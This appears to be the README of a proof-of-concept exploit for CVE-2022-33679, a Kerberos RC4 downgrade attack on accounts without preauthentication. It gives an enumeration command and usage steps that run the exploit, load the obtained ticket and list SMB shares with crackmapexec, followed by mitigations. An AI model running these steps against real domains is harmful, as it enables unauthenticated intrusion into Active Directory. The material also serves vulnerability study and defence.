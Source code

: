 # Kerberos Encryption Downgrade CVE-2022-33679

### CVE-2022-33679 performs an encryption downgrade attack by forcing the KDC to use the RC4-MD4 algorithm and then brute forcing the session key from the AS-REP using a known plaintext attack, Similar to AS-REP Roasting, it works against accounts that have preauthentication disabled and the attack is unauthenticated meaning we don’t need a client’s password..

## Requirements

 - Accounts with the attribute DONT_REQ_PREAUTH ( PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose )

### Usage:

 - python CVE-2022-33679.py DOMAIN.LOCAL/User DC01.DOMAIN.LOCAL

 - export KRB5CCNAME=/home/project/User.ccache

 - crackmapexec smb DC01.DOMAIN.LOCAL -k --shares

## Mitigations

 - All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).

 - Disable RC4 cipher if possible.
